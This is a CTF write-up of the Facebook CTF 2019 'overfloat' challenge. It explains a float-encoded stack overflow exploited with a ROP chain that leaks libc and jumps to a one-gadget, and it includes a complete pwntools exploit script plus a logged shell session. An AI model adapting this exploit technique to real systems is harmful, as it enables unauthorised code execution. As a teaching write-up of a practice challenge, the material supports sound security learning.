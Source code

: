 # Facebook CTF 2019

I only managed to complete a single pwn challenge (overfloat) as I was pretty busy at the time :'-(

## overfloat
The challenge revolves around a buffer overflow exploit using 32-bit float values entered via `stdin`. The float values are longitude/latitude pairs stored in an array. We use return-oriented programming (ROP) to leak the address of `fgets` in libc through the global offset table. We then return into `main()` again to enter our 2nd stage which involves a call to a one-gadget in this particular version of libc.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+10h] [bp-30h]@1

  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  alarm(0x1Eu);
  __sysv_signal(14, timeout);
  puts(...);
  memset(&s, 0, 0x28uLL);
  chart_course(&s, 0LL);
  puts("BON VOYAGE!");
  return 0;
}
```

The vulnerable buffer `s` is located in `main()`, so the exploit will be triggered when `main()` returns. We can control this buffer in `chart_course()` as `s` is passed into this function. We can see that an alarm signal is setup to disconnect clients after 30 seconds has elapsed. For debugging purposes, `gdb` can be set to ignore this signal using `handle SIGALRM ignore`.

The call to `memset` indicates that `s` is _probably_ 40 bytes long.

```c
__int64 __fastcall chart_course(__int64 a1)
{
  __int64 result; // rax@6
  int v2; // xmm1_4@8
  char s; // [sp+10h] [bp-70h]@5
  int v4; // [sp+78h] [bp-8h]@8
  int i; // [sp+7Ch] [bp-4h]@1

  for ( i = 0; ; ++i )
  {
    if ( i & 1 )
      printf("LON[%d]: ", (unsigned int)(i / 2 % 10));
    else
      printf("LAT[%d]: ", (unsigned int)(i / 2 % 10));
    fgets(&s, 100, stdin);
    if ( !strncmp(&s, "done", 4uLL) )
      break;
    *(float *)&v2 = atof(&s);
    v4 = v2;
    memset(&s, 0, 0x64uLL);
    *(_DWORD *)(4LL * i + a1) = v4;
LABEL_9:
    ;
  }
  result = i & 1;
  if ( i & 1 )
  {
    puts("WHERES THE LONGITUDE?");
    --i;
    goto LABEL_9;
  }
  return result;
}
```

The `chart_course` function accepts 100 bytes of input via `stdin`, obviously overflowing the `s` buffer passed into the function. The program will loop until `done` is entered. The line `*(_DWORD *)(4LL * i + a1) = v4;` is responsible for writing the 32-bit float values into `s`. At this point, we can begin crafting our exploit.

To craft our payload, we need to use IEEE-754 floating-point values (because `atof` is used). A quick way of testing this is to use this tool: https://www.h-schmidt.net/FloatConverter/IEEE754.html. For example, let's say we want to enter 0x12345678, the "typical way" would be to use `\x78\x56\x34\x12`, this value would be entered as `5.6904566E-28`. As we're storing longitude and latitude pairs, which are both 32-bits - we write the lower 32-bits using the longitude, and the upper 32-bits using the latitude input. So for `0x0000000012345678` we enter `5.6904566E-28` followed by `0`, creating a 64-bit address with null-bytes allowed.

### overfloat.py

```python
#!/usr/bin/python2

#
# [braeden@localhost dist]$ python overfloat.py
# [+] Opening connection to challenges.fbctf.com on port 1341: Done
# [+] fgets: 0x7f7b45286b20
# [+] libc: 0x7f7b45208000
# [+] one_gadget: 0x7f7b452572c5
# [*] Switching to interactive mode
#                                  _ .--.
#                                 ( `    )
#                              .-'      `--,
#                   _..----.. (             )`-.
#                 .'_|` _|` _|(  .__,           )
#                /_|  _|  _|  _(        (_,  .-'
#               ;|  _|  _|  _|  '-'__,--'`--'
#               | _|  _|  _|  _| |
#           _   ||  _|  _|  _|  _|
#         _( `--.\_|  _|  _|  _|/
#      .-'       )--,|  _|  _|.`
#     (__, (_      ) )_|  _| /
#       `-.__.\ _,--'\|__|__/
#                     ;____;
#                      \YT/
#                       ||
#                      |""|
#                      '=='
#
# WHERE WOULD YOU LIKE TO GO?
# LAT[0]: LON[0]: LAT[1]: LON[1]: LAT[2]: LON[2]: LAT[3]: LON[3]: LAT[4]: LON[4]: LAT[5]: LON[5]: LAT[6]: LON[6]: LAT[7]: LON[7]: LAT[8]: BON VOYAGE!
# $ id
# uid=1000(overfloat) gid=1000(overfloat) groups=1000(overfloat)
# $ pwd
# /
# $ ls
# bin
# boot
# dev
# etc
# home
# lib
# lib64
# media
# mnt
# opt
# proc
# root
# run
# sbin
# srv
# sys
# tmp
# usr
# var
# $ cd home
# $ ls
# overfloat
# $ cd overfloat
# $ ls
# flag
# overfloat
# $ cat flag
# fb{FloatsArePrettyEasy...}
# $
#

from pwn import *
import struct
import binascii

p = remote('challenges.fbctf.com', 1341)
p.recvuntil(': ')

# The first part of the exploit is leaking the address of 'fgets' in libc.
for g in range(0, 14):
    p.sendline(str(g))

# All the addresses in the first stage are lead by zeroes.
def send_address(address):
    p.sendline(address)
    p.sendline('0')

send_address('5.881243E-39')    # pop rdi, ret;
send_address('8.82781E-39')     # fgets@got
send_address('5.879826E-39')    # puts(fgets@got)
send_address('5.880906E-39')    # main()
p.sendline('done')
p.recvuntil('VOYAGE!\n')

# The second stage is using the leaked libc address to return to the 1-gadget.
fgets_address = p.recvuntil('\n').strip('\n')
fgets_address = u64(fgets_address + (8 - len(fgets_address)) * '\x00')
log.success('fgets: {}'.format(hex(fgets_address)))

# The address of libc base is &fgets - offset to fgets().
libc_address  = fgets_address - 0x7eb20
log.success('libc: {}'.format(hex(libc_address)))

# This particular libc version has a 1-gadget at this address...
#   BuildID[sha1]=b417c0ba7cc5cf06d1d1bed6652cedb9253c60d0
one_gadget_address = libc_address + 0x4f2c5
one_gadget = str(hex(one_gadget_address))
log.success('one_gadget: {}'.format(one_gadget))

# Execute 2nd stage.
for g in range(0, 14):
    p.sendline(str(g))

p.sendline(str(struct.unpack('>f', binascii.unhexlify(one_gadget[-8:]))[0]))
p.sendline(str(struct.unpack('>f', binascii.unhexlify(one_gadget[2:6].rjust(8, '0')))[0]))
p.sendline('done')

# If everything was successful, we'll get a shell ;-)
p.interactive()
p.close()
```
